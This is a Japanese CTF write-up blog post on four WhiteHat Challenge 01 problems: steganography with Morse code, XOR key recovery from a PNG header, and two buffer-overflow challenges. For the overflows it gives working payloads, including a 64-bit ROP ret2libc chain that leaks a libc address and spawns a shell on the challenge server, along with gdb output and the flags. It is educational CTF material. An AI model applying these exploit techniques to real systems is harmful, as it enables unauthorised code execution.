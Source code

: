 ```yaml
---
layout: post
title: WhiteHat Challenge 01 の write-up
categories: [ctf]
date: 2017-02-26 05:50:00 +0900
---
```


チーム Harekaze で [WhiteHat Challenge 01](https://wargame.whitehat.vn/) に参加しました。

最終的にチームで 140 点を獲得し、順位は 5 位 (得点 70 チーム中) でした。うち、私は 4 問を解いて 70 点を入れました。

以下、解いた問題の write-up です。

## [Forensics 20] For001

問題の zip を展開すると LSB.png という名前のファイルが出てきました。

stegsolve.jar で RGB の LSB を取ってみると、zip を抽出できました。Google ドキュメントで開いてみると

```
. .- ... -.-- ..-. --- .-. . -. ... .. -.-.
```

という文字列が出てきました。これをモールス符号としてデコードした `easyforensic` を指定のフォーマットに当てはめてサブミットすると正解でした。

```
WhiteHat{1f0aa393d3e5369f391c35a793bcf1178b8299a0}
```

## [Cryptography 20] Crypto002

暗号化された out.png と、この画像の暗号化に使われた encode.py が渡されます。

encode.py を見ると鍵が 8 バイトであると分かります。PNG の先頭 8 バイトは `\x89PNG\r\n\x1a\n` と決まっているので、これと out.png の先頭 8 バイトを xor すると鍵は `W3lld0n3` であると分かりました。

この鍵を使って out.png を復号すると、`Too_easy_right?` と書かれた画像が出てきました。

```
WhiteHat{5356be1427d77ea27062cb5417c887b01a019e11}
```

## [Pwnable 15] Pwn002

`AAAAAAAAAAAAABBBB` で EIP が 0x42424242 になります。

0x080484d4 にフラグを表示する処理があるようなので、`./Something_above $(python -c "import struct; print 'A' * 13 + struct.pack('<I', 0x080484d4)")` を実行すると `c0nGr4t!u_p4sS_th3_n0ob_lvl` と表示されました。

```
WhiteHat{1ca60d8ef1a80affa5d009a4b3fc97170f313f5e}
```

## [Pwnable 15] Pwn001

どんなバイナリか調べてみます。

```
$ file ./SimpleBoF
SimpleBoF: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=0c92b374bbf7ea63e314065b4c77dce0fe2d3e14, not stripped
$ checksec --file ./SimpleBoF
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

リモートで `/proc/sys/kernel/randomize_va_space` を確認すると、ASLR が無効であると分かりました。関数のオフセットを調べて、直接 system を呼んでしまいましょう。

```
pwn001@pwn32:~$ ldd ./SimpleBoF
        linux-vdso.so.1 =>  (0x00007ffff7ffd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7c2e000)
        /lib64/ld-linux-x86-64.so.2 (0x0000555555554000)
pwn001@pwn32:~$ strings -a -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 17c8c3 /bin/sh
pwn001@pwn32:~$ gdb /lib/x86_64-linux-gnu/libc.so.6
gdb-peda$ p/x &system
$1 = 0x46590
gdb-peda$ p/x &printf
$2 = 0x54340
```

libc のベースアドレスを手に入れましょう。

```python
import struct

def p(x):
  return struct.pack('<Q', x)

addr_printf = 0x400450
addr_str = 0x400644
addr_pop_rdi = 0x400623
addr_pop_rsi_r15 = 0x400621
addr_got_printf = 0x601018
offset_printf = 0x41490

payload = ''
payload += 'A' * 40
payload += p(addr_pop_rdi)
payload += p(addr_str)
payload += p(addr_pop_rsi_r15)
payload += p(addr_got_printf)
payload += 'BBBBBBBB'
payload += p(addr_printf)

print payload
```

得られたアドレスから、

```python
import struct

def p(x):
  return struct.pack('<Q', x)

addr_pop_rdi = 0x400623
offset_system = 0x46590
offset_sh = 0x17c8c3
offset_printf = 0x54340

libc_base = 0x7ffff7a69340 - offset_printf

payload = ''
payload += 'A' * 40
payload += p(addr_pop_rdi)
payload += p(libc_base + offset_sh)
payload += p(libc_base + offset_system)

print payload
```

でシェルが起動できました。

```
pwn001@pwn32:~$ (python /tmp/.../s.py; cat) | ./SimpleBoF
Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#@
ls
flag.txt  peda-master  SimpleBoF
ls -la
total 32
drwxr-x--- 3 root    pwn001 4096 Feb 23 10:51 .
drwxr-xr-x 8 root    root   4096 Feb 20 17:22 ..
-r--r----- 1 pwn001_ root     30 Feb 20 17:17 flag.txt
-rw-r--r-- 1 root    root     29 Feb 23 10:52 .gdbinit
drwxr-xr-x 3 root    root   4096 Feb 23 10:51 peda-master
-r-sr-x--- 1 pwn001_ pwn001 8575 Feb 20 16:10 SimpleBoF
cat flag.txt
Welcome To Exploitation World
```

```
WhiteHat{e00725f55dcf5b3483aff542e6ac18f5262fa27a}
```

## 感想

この他に Web 問が 2 問あったのですが、どちらも解けず。どうすればよかったのか気になります。
